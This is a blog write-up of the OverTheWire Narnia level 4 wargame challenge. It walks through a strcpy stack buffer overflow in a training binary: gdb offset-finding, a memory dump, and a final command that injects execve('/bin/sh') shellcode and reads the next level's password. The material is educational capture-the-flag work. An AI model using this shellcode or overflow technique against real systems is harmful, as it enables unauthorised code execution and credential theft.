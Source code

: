 ```yaml
---
layout:     post
title:      "Overthewire.org - Narnia 4 -> 5"
subtitle:   "Write-Up"
date:       2017-03-09 0:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
permalink: /:title/
category: Overthewire
---
```


<h1>Introduction</h1>

<p>Today we'll be dealing with another reverse engineering challenge from Overthewire - pretty quick, but fun as always!  </p>

<h1>Challenge</h1>

<p>This code is a lot shorter, compared to the previous ones, making it much easier to analyze. </p>

{% highlight c %}
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
	int i;
	char buffer[256];

	for(i = 0; environ[i] != NULL; i++)
		memset(environ[i], '\0', strlen(environ[i]));

	if(argc>1)
		strcpy(buffer,argv[1]);

	return 0;
}

{% endhighlight %}

<p>Yeah, we have a buffer of 256 bytes, which gets the content, using dangerous <b>strcpy</b> function straight from the argument variable. This challenge looks a lot like the second one, so maybe we will also be able to put shellcode somewhere in the buffer? </p>

<p>Actually, after a little bit of tinktering in <b>gdb</b>, I've found that providing the binary with 273 "A" letters and 7 "B" letters will overwrite our buffer, together with return address.  </p>

{% highlight bash %}
(gdb) run $(python -c 'print "A" * 272 + "BBBBBBB"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /games/narnia/narnia4 $(python -c 'print "A" * 272 + "BBBBBBB"')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
{% endhighlight %}

<p>Now let's take a look at the memory. </p>

{% highlight text %}
0xffffd800:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd810:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd820:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd830:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd840:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd850:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd860:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd870:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd880:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd890:	0x41414141	0x41414141	0x41414141	0x41414141
---Type <return> to continue, or q <return> to quit---
0xffffd8a0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd8b0: 0x41414141  0x41414141  0x42424141  0x42424242
0xffffd8c0: 0x00004242  0x00000000  0x00000000  0x00000000
0xffffd8d0: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd8e0: 0x00000000  0x00000000  0x00000000  0x00000000
{% endhighlight %}

<p>From this we know that we have somewhere around 272 bytes for the shellcode with some additional bytes that will overwrite the return address. Now we can construct the command, using code from the previous levels. </p>

<p>As we already know that our payload is 25 bytes in size, we will have to: firstly write 247 "A" letters, then 25 bytes of shellcode and lastly overwriting the <b>EIP register</b>, which then will be placed somewhere in the middle of "A" letters. By looking at the debug of the memory, I'm going to choose it as <b>0xffffd850</b>.  </p>

{% highlight bash %}
narnia4@melinda:/narnia$ ./narnia4 $(python -c'print "A" * 247 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x50\xd8\xff\xff"')
$ cat /etc/narnia_pass/narnia5
********
{% endhighlight %}

<p>Once again we have the password to the next level! </p>

<h1>Conclusion</h1>
<p>Another big thanks to <a href="http://overthewire.org/wargames/">OverTheWire</a>! I'm looking forward to the next challenges! </p>
